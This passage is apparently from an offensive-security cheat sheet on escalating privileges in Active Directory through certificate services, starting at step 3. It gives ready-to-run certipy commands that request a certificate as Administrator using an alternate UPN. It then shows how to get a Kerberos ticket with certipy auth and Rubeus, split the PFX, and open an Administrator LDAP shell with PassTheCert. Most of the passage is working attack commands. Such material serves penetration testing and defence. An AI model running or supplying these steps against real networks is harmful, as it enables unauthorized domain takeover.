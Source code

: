 ### 3. Request Certificates

After adding new computer, we might be able to retrieve certificate using this computer account.  
At this time, try using alternate UPN (**`-upn`**) for administrator because we want to escalate privilege.

```sh
certipy req -u 'TEST$' -p 'password' -ca VULN-CA -target example.local -dc-ip 10.0.0.1 -dns ca.example.local -template Example -upn Administrator@example.local
```

If successful, the file which contains certificates and private key (e.g. **`administrator.pfx`**) will be saved in current directory.  

### 4. Authenticate using PFX

We might be able to retrieve TGT using the **`.pfx`** file as below.

```sh
# From outside of target machine
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
# From inside of target machine
Rubeus.exe asktgt /user:Administrator /certificate:administrator.pfx /ptt
```

Then using/cracking it to authenticate as Administrator.

### Option: Authenticate over LDAP

Reference: [https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)

According to the article above, we may be able to authenticate over some protocols such as LDAP(S).
First off, split the **`administrator.pfx`** with **certificate** and **private key** using two commands below.

```sh
# Extract certificate by `-nokey` flag
certipy cert -pfx administrator.pfx -nokey -out cert.crt

# Extract private key by `-nocert` flag
certipy cert -pfx administrator.pfx -nocert -out cert.key
```

After that, using [PassTheCert](https://github.com/AlmondOffSec/PassTheCert), we can spawn shell as Administrator via **Schannel** against **LDAP(S)**.

```sh
python3 passthecert.py -dc-ip 10.0.0.1 -crt cert.crt -key cert.key -domain example.local -port 636 -action ldap-shell
```

<br />

